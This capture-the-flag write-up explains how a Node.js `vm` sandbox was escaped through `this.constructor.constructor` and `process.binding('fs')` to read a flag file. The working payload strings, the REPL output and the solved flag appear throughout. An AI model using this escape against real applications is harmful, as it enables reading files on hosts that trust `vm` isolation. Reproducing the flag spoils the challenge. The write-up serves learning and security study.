 # misc/CaaSiNO

## Flag
```
flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}
```

## Introduction
By looking at the javascript provided, we see that the code the "calculator" executes is running with `vm`, a lib used to execute JS code in Sandbox mode. (https://nodejs.org/api/vm.html)

So we're bsaically inside a JSJail!

## Solution
One of the first things we see when looking at the documentation is a disclaimer stating that the lib is not to be used as a security mechanism... So... There must be a way to escape from the context.

Searching a little bit for things like "nodejs vm escape" will provide a couple of existing links. The ones I used to help solve this callenge were:
 1- https://gist.github.com/jcreedcmu/4f6e6d4a649405a9c86bb076905696af
 2- https://blog.netspi.com/escape-nodejs-sandboxes/

From resource 1, the most relevant thing is the ability to make an eval of a string on the Global context (not the sandbox one), by using  (this.constructor.constructor(""))() https://gist.github.com/jcreedcmu/4f6e6d4a649405a9c86bb076905696af#file-escape-js-L48-L50

So we can start playing with that. For example, if we look at `this` and its `process` variable, we can see that in Sandbox mode, it's `undefined`
```
> this
[object Object]
> this.process
undefined
```

However, using the constructor escape...
```
> (this.constructor.constructor("return this.process"))()
[object process]
```
Bingo, we have a process!

After this, since the challenge already provides a hint stating the location of the flag file, the first thing I tried was using common JS/nodeJS libs to read files. But it seems that we cannot do `require` of libs.
```
> (this.constructor.constructor("var fs = require('fs'); return fs"))()
An error occurred.
> (this.constructor.constructor("var cp = require('child_process'); return cp"))()
An error occurred.
```

Reading now from resource 2, I noticed a peculiar way of "importing" some libs using `process.binding('fs')`. So, let's try it!
```
> (this.constructor.constructor("var fs = this.process.binding('fs'); return fs;"))()
[object Object]
```
Trying to load 'fs' returns something!

Apparently, NodeJS has the possibility of creating things on different languages (like C/C++) taking advantage of the language, and then binding it to it.
It seems that by default, there is a standard set of bindings that you can use in Node, which could be described using the `natives` binding:

```
> (this.constructor.constructor("var n = this.process.binding('natives'); return Object.getOwnPropertyNames(n);"))()
_http_agent,_http_client,_http_common,_http_incoming,_http_outgoing,_http_server,_stream_duplex,_stream_passthrough,_stream_readable,_stream_transform,_stream_wrap,_stream_writable,_tls_common,_tls_wrap,assert,async_hooks,buffer,child_process,cluster,console,constants,crypto,dgram,dns,domain,events,fs,fs/promises,http,http2,https,inspector ...
```

We can see that `fs` is effectively among the possible bindings. `child_process` is mentioned as well, so I tried using it directly to execute os commands directly, but it fails. It would seem that not all the listed bindings are available to use:
```
> (this.constructor.constructor("var c = this.process.binding('child_process'); return c;"))()
An error occurred.
```

So, I focus back on `fs`. Taking a look at the available properties, we can see a list of common methods
```
> (this.constructor.constructor("var fs = this.process.binding('fs'); return Object.getOwnPropertyNames(fs);"))()
access,close,open,openFileHandle,read,readBuffers,fdatasync,fsync,rename,ftruncate,rmdir,mkdir,readdir,internalModuleReadJSON,internalModuleStat,stat,lstat,fstat,link,symlink,readlink,unlink,writeBuffer,writeBuffers,writeString,realpath,copyFile,chmod,fchmod,chown,fchown,lchown,utimes,futimes,mkdtemp,kFsStatsFieldsNumber,statValues,bigintStatValues,StatWatcher,FSReqCallback,FileHandle,kUsePromises

> (this.constructor.constructor("var fs = this.process.binding('fs'); return fs.open;"))()
function open() { [native code] }
```

And from resource #2, we can see these bindings are using os commands for open, read, etc. (https://linux.die.net/man/2/read)

So, from here we basically need to open the ctf flag file and read it!
Below is the code-recipe:

```
var fs = this.process.binding('fs');
var readonly_flag = 0;
var mode = 0o666;
var fd  = fs.open('/ctf/flag.txt', readonly_flag, mode, undefined, {path: '/ctf/flag.txt'}); 
var buffer = Buffer.alloc(100); 
fs.read(fd, buffer, 0, 100, -1, undefined, {});
return buffer;
```

In order to put the code-recipe together, I had to look on the source files of NodeJS on how fs was being used to open and read, so to understand the flags, mode, buffer, etc
    - https://github.com/nodejs/node/blob/master/lib/fs.js
    - https://github.com/nodejs/node/blob/master/lib/buffer.js

And the final command alltogether would be:
(this.constructor.constructor("var fs = this.process.binding('fs');var readonly_flag = 0;var mode = 0o666;var fd  = fs.open('/ctf/flag.txt', readonly_flag, mode, undefined, {path: '/ctf/flag.txt'}); var buffer = Buffer.alloc(100); fs.read(fd, buffer, 0, 100, -1, undefined, {});return buffer;"))()

We run it and...
```
> (this.constructor.constructor("var fs = this.process.binding('fs');var readonly_flag = 0;var mode = 0o666;var fd  = fs.open('/ctf/flag.txt', readonly_flag, mode, undefined, {path: '/ctf/flag.txt'}); var buffer = Buffer.alloc(100); fs.read(fd, buffer, 0, 100, -1, undefined, {});return buffer;"))()

flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}
```
